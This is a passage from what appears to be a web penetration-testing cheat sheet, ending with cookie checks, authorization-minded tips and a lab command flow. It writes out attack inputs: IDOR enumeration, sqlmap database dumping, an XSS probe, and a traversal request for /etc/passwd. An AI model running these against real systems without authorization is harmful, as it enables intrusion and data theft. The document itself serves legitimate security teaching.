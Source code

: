 13) Sessions and cookies
```
# Check flags and scope
curl -kI $TARGET | grep -i set-cookie
# Look for Secure; HttpOnly; SameSite; Path; Domain
```

## Practical tips
- Always obtain written authorization. Prefer intentionally vulnerable labs for practice (DVWA, Juice Shop, WebGoat).
- Start with low-noise checks (headers, options, robots, cookies) before heavy scans.
- Use Burp/ZAP to record requests, then replay/modify in Repeater for precise testing.
- Normalize responses: track content length, status codes, response times to detect anomalies when fuzzing.
- For access control tests, create multiple accounts (user vs admin) and compare responses (differential testing).
- Keep payloads minimal first; escalate only as needed (e.g., ' vs ' OR 1=1--).
- Sanitize and store evidence securely; never include sensitive data in reports.
- Rate limit and throttle fuzzers to avoid denial of service; mind scope and hostnames.

## Minimal cheat sheet (one-screen flow)
```
# Target (lab)
export TARGET=http://127.0.0.1:8080; export COOKIE='PHPSESSID=XXX; security=low'

# Recon
whatweb -v $TARGET
nmap -p80,443 --script=http-title,http-headers,http-methods -sV -Pn 127.0.0.1
curl -kI $TARGET

# Content discovery
gobuster dir -u $TARGET -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,js,txt
dirsearch -u $TARGET -w /usr/share/seclists/Discovery/Web-Content/common.txt -e php,js,txt

# Misconfig quick wins
curl -k -i -X OPTIONS $TARGET
nikto -h $TARGET
curl -ks $TARGET/robots.txt

# Access control (IDOR)
for i in $(seq 1 10); do curl -ks "$TARGET/api/users/$i" -H "Cookie: $COOKIE" -I | head -n1; done

# SQLi (lab)
sqlmap -u "$TARGET/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="$COOKIE" --batch --dbs

# XSS quick probe
curl -ks "$TARGET/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E" -H "Cookie: $COOKIE"

# LFI / traversal (lab)
curl -ks "$TARGET/download?file=../../../../etc/passwd" -H "Cookie: $COOKIE"

# TLS (if HTTPS)
testssl.sh --fast https://127.0.0.1:8443
```
